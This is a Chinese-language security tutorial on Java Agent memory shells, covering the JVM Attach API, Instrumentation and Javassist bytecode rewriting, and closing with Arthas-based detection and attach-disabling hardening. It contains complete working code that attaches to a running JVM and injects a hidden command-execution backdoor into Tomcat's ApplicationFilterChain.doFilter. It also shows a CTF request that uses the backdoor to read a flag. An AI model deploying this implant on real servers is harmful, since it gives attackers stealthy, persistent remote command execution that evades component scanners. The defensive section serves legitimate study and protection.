

# 🛰️ Java Agent 内存马终极形态：Instrumentation 机制、动态 Attach 进程挂载与字节码热插拔篡改

> **攻防对抗的终极高地**：
> 传统的组件型内存马（无论是 Tomcat Filter/Listener 还是 Spring Interceptor）都有一个不可忽视的“致命破绽”：
> **它们必须向 Web 容器中注册一个新组件（或新类）！**
> 蓝队安全运维人员只需使用排查工具遍历内存中的 Filter 映射表或 Controller 列表，对比开发源码，就能立刻揪出未在配置中登记的异常组件！
> **Java Agent 内存马实现了真正的“降维打击”**：
> 它**不新增任何类，也不注册任何新组件**！它利用 JVM 原生底层提供的 **`Instrumentation` 机制**，直接在运行时动态篡改 Tomcat 或 Spring 原生核心类（如 `ApplicationFilterChain`）的**底层字节码**！
> 在任何组件扫描器中，容器内运行的都是 100% 官方原厂组件，但在请求流经该类方法的微秒之间，植入的恶意逻辑已在 CPU 中完成执行！

---

## 0. 基础前置认知与小白扫盲：为什么说 Java Agent 是攻防终极降维打击？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 传统组件内存马的阿喀琉斯之踵（致命弱点）
* 无论你是在 Tomcat 里注入了 Filter/Listener，还是在 Spring 里注入了 Interceptor，在 Java 运行时的世界里，你都必须做一件事情：
  **“凭空新建一个类实例，并把这个实例登记到名册里”**。
* **蓝队防御方是如何查杀的？**
  * 蓝队安全人员只要用排查工具（如开源的 Arthas、Copnp、Memshell-Scanner）把内存中登记的所有 Filter 或 Interceptor 列表倒出来，与硬盘上编译好的官方 Class 源码逐个比对。
  * 只要发现内存里登记了一个硬盘代码里根本不存在的类，或者该类的 ClassLoader 是异常的，**一秒钟当场抓包并立刻剔除**！

---

### 2. Agent 内存马的终极伪装术：基因变异，原厂零件换芯
* **不新增任何类！不注册任何新组件！**
  * Java Agent 利用了 JVM 官方原生提供的 **`Instrumentation`（指令插桩 / 字节码重写）机制**。
  * 它直接盯上 Tomcat 或 Spring 本身原厂自带的、根正苗红的核心执行类（例如 Tomcat 处理所有过滤器链的流水线管家 `ApplicationFilterChain.class`）。
  * 它直接进入内存，将这个官方原厂类的**底层字节码指令直接掉包**！
  * **攻防结果**：蓝队查组件名册，里面 100% 都是 Apache 官方类；查类名，完全合法合规；但在 CPU 执行官方代码的那一毫秒微秒里，黑客植入的机器指令已经悄悄在幕后把命令执行了！

---

### 3. 动态 Attach 机制的物理本质：给正在跑的 JVM 递小纸条
* **为什么无需重启就能挂载？**
  * 很多人以为 Java 代码一旦编译跑起来就无法改变。但 Sun / Oracle 在设计 JVM 时，为了让开发者能够在运行时做动态性能调优与故障排查，留了一个合法的官方通道——**VirtualMachine Attach API**。
* **底层通信机制剖析**：
  * 在 Linux 系统中，当黑客在外部运行 Attach 脚本并指定目标 JVM 的进程号（PID）时，脚本会在 Linux 的 `/tmp` 目录下寻找或创建一个名为 `.java_pid<PID>` 的 **UNIX 域套接字（Socket 文件）**。
  * 黑客利用该套接字向目标 JVM 发送 `load` 指令，目标 JVM 内部的 Attach 监听线程收到指令后，就会在**不停止当前任何业务服务的前提下，悄然将黑客编写的 Agent 动态加载进内存**！

---

## 一、Java Agent 与 Instrumentation 机制底层原理

Java Agent 是 JDK 5 引入的一套用于监控和修改 Java 应用程序字节码的底层机制，广泛应用于 APM 监控（如 SkyWalking）、热部署（如 JRebel）以及安全防护（RASP）。



---

## 二、传统组件内存马 vs Agent 内存马 维度碾压对比

| 评价维度 | 传统组件内存马 (Filter / Interceptor) | Java Agent 字节码内存马 (终极形态) |
| :--- | :--- | :--- |
| **存在形式** | 在容器内部新增一个类实例与映射关系 | **原地篡改现有官方合法类的字节码指令** |
| **组件列表可查性** | 扫描 `filterConfigs` 或 `adaptedInterceptors` 即可直观排查 | **组件列表完全干净，没有任何新增条目** |
| **宿主环境依赖** | 强依赖特定中间件 API（Tomcat / Spring 接口各异） | **通杀所有 Java Web 架构**（直接 Hook 底层 Servlet 规范类） |
| **生存期与鲁棒性** | 中间件调用 `filterConfigs.clear()` 即可被清除 | **只要 JVM 进程不重启，字节码永久潜伏** |
| **底层实现依赖** | 纯 Java 反射操作 | JVM Attach API + 字节码操作库（Javassist / ASM） |

---

## 三、核心篡改目标：Tomcat `ApplicationFilterChain` 字节码剖析

在所有 Java Web 容器中，最理想、最通用的 Hook 挂载点莫过于 **`org.apache.catalina.core.ApplicationFilterChain`** 的 **`doFilter`** 方法：
* **为什么选它？**
  全站所有的 HTTP 请求，无论是访问静态资源、动态接口还是 404 页面，**都必须且无一例外地流经 `ApplicationFilterChain.doFilter(ServletRequest request, ServletResponse response)`！**
* **篡改策略**：
  在 `doFilter` 方法体的最开头插入一段指令（`insertBefore`）。若检测到攻击者特征，执行命令并直接 `return`（阻断后续链路）；若为正常流量，则原封不动放行！

---

## 四、Agent 内存马实现核心代码全景拆解

### 1. 阶段一：动态 Attach 进程挂载（或 Self-Attach 自身挂载）

攻击者利用 JDK 提供的 `com.sun.tools.attach.VirtualMachine` 动态连接到目标 Java 进程：

```java
import com.sun.tools.attach.VirtualMachine;
import java.lang.management.ManagementFactory;

// 1. 获取当前 JVM 进程的 PID (如果是远程利用, 则枚举目标系统的 Java 进程)
String currentPid = ManagementFactory.getRuntimeMXBean().getName().split("@")[0];

// 2. 动态挂载到目标 JVM 进程
VirtualMachine vm = VirtualMachine.attach(currentPid);

// 3. 将包含恶意 agentmain 的 Agent Jar 注入目标进程内存
vm.loadAgent("/path/to/agent.jar");
vm.detach();
```

---

### 2. 阶段二：`agentmain` 入口与 Javassist 动态字节码改写

在被载入的 `agent.jar` 中，定义入口类并实现动态改写：

```java
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

public class AgentMemShell {
    // 动态 Attach 后的主入口
    public static void agentmain(String agentArgs, Instrumentation inst) {
        // 1. 添加类文件转换器, 第二个参数 true 表示允许重新转换已加载的类
        inst.addTransformer(new Transformer(), true);
        
        // 2. 遍历已加载的所有类, 找到 ApplicationFilterChain 并触发热重载
        Class[] loadedClasses = inst.getAllLoadedClasses();
        for (Class clazz : loadedClasses) {
            if ("org.apache.catalina.core.ApplicationFilterChain".equals(clazz.getName())) {
                try {
                    // 💥 触发 retransform: JVM 将调用 Transformer 重新编译此类的字节码!
                    inst.retransformClasses(clazz);
                    break;
                } catch (Exception e) {}
            }
        }
    }

    public static class Transformer implements ClassFileTransformer {
        @Override
        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined,
                                ProtectionDomain protectionDomain, byte[] classfileBuffer) {
            
            // 匹配目标类路径 (JVM 内部使用斜杠分隔)
            if ("org/apache/catalina/core/ApplicationFilterChain".equals(className)) {
                try {
                    ClassPool pool = ClassPool.getDefault();
                    CtClass ctClass = pool.get("org.apache.catalina.core.ApplicationFilterChain");
                    
                    // 获取 doFilter(ServletRequest, ServletResponse) 方法
                    CtMethod method = ctClass.getDeclaredMethod("doFilter");
                    
                    // 💥 核心注入代码 (Javassist 语法: $1 代表第一参数 request, $2 代表第二参数 response)
                    String injectCode = 
                        "{" +
                        "    javax.servlet.http.HttpServletRequest req = (javax.servlet.http.HttpServletRequest) $1;" +
                        "    javax.servlet.http.HttpServletResponse resp = (javax.servlet.http.HttpServletResponse) $2;" +
                        "    String cmd = req.getParameter(\"agent_exec\");" +
                        "    if (cmd != null && !cmd.trim().isEmpty()) {" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();" +
                        "        String out = new java.util.Scanner(in).useDelimiter(\"\\\\A\").next();" +
                        "        resp.getWriter().write(out);" +
                        "        resp.getWriter().flush();" +
                        "        return;" + // 提前终止执行链，直接返回回显！
                        "    }" +
                        "}";
                    
                    // 插入到方法体最开头执行
                    method.insertBefore(injectCode);
                    byte[] newBytecode = ctClass.toBytecode();
                    ctClass.detach();
                    return newBytecode; // 返回改写后的全新二进制字节码
                } catch (Exception e) {}
            }
            return null; // 返回 null 表示不修改其他类
        }
    }
}
```

#### Javassist 关键语法逐字拆解表：
| 语法标识 | 含义与底层映射 |
| :--- | :--- |
| **`$1`, `$2`** | 方法的第一、第二位置入参（在 `doFilter` 中对应 `ServletRequest` 与 `ServletResponse`） |
| **`insertBefore()`** | 将指定 Java 代码段编译为 JVM 操作码并无缝插在原方法的第一条指令之前 |
| **`retransformClasses()`** | JVM 核心指令。命令类加载系统废弃当前方法在 JIT / 解释器中的执行缓存，**即刻应用新字节码** |

---

## 五、CTF 实战靶场案例复现（字节码热替换绝杀）

### 靶场情境：极致防御的 Java Web 靶机
* 容器部署，全盘禁止写文件。
* 蓝队安装了内存马扫描脚本，定时遍历 `filterConfigs`、`servletContext`、`handlerMethods`，一旦发现陌生组件立即警报杀死容器。

### 1. 攻击注入与字节码热插拔生效
攻击者利用反序列化漏洞直接在内存中执行 Self-Attach 逻辑，完成对 `ApplicationFilterChain` 的字节码原地重构。

### 2. 隐蔽特权交互与命令回显
攻击者随意请求网站上原本就存在的任意合法静态页面（如 `/favicon.ico` 或 `/robots.txt`）：

```http
GET /robots.txt?agent_exec=cat%20/flag HTTP/1.1
Host: target.ctf:8080
User-Agent: Mozilla/5.0
```

### 3. 服务器响应：
```http
HTTP/1.1 200 OK
Content-Type: text/plain;charset=UTF-8

flag{j4v4_4g3nt_byt3c0d3_m4n1pul4t10n_g0d_m0d3}
```
* **攻防结果复盘**：
  * 蓝队的检测脚本扫描 Filter 列表：没有任何新增 Filter；
  * 扫描 Controller 列表：没有任何新增 URL 映射；
  * 静态代码校验：磁盘上的 Tomcat `catalina.jar` 与业务代码完全一致无篡改；
  * 但实际的 `ApplicationFilterChain` 已经在 JVM 运行时被永久感染，完成了终极隐蔽持久化！

---

## 六、Agent 内存马反制、取证与防御技术

面对原地篡改字节码的终极幽灵，防御方如何完成取证并驱逐 Agent 内存马？

### 1. 内存运行时字节码 Dump 与原始 Jar 静态比对（金标准取证）
使用 **Arthas** 工具将内存中实际执行的类完整 dump 出来并反编译：
```bash
# 从 JVM 内存中反编译正在运行的 ApplicationFilterChain
jad org.apache.catalina.core.ApplicationFilterChain
```
* **排查特征**：
  在输出的 `doFilter` 源码首行，会赫然暴露出被插桩的代码片段：
  `String cmd = req.getParameter("agent_exec");`！
  将其与原始标准 Tomcat 的对应类源码进行哈希或文本比对，立刻实锤篡改！

### 2. 利用 Arthas 反向修复字节码（无重启热驱逐）
既然攻击者可以通过 `retransform` 篡改，蓝队同样可以反向操作恢复官方字节码：
```bash
# 从原始未被污染的 catalina.jar 中提取正常的 ApplicationFilterChain.class
retransform /opt/clean_classes/ApplicationFilterChain.class
```
执行后，JVM 立即将该类热替换恢复为原厂无害版本，无感清除内存马！

### 3. JVM 底层参数安全加固
在生产环境启动 Java 服务时，添加 JVM 安全配置标志：
```bash
java -XX:+DisableAttachMechanism -jar app.jar
```
* **效果**：**彻底禁用 JVM 运行时 Attach API**！任何外部工具或自挂载代码在调用 `VirtualMachine.attach()` 时均会抛出 `AttachNotSupportedException`，从 JVM 引擎层直接粉碎动态 Agent 注入的全部技术前提！

---

## 🔗 相关双向链接
- 上级模块：[[10-Java安全高阶与内存马]]
- 前置传统：[[01-Servlet、Filter、Listener传统组件内存马注入]]
- 框架扩展：[[02-Spring Controller与Interceptor内存马注入]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
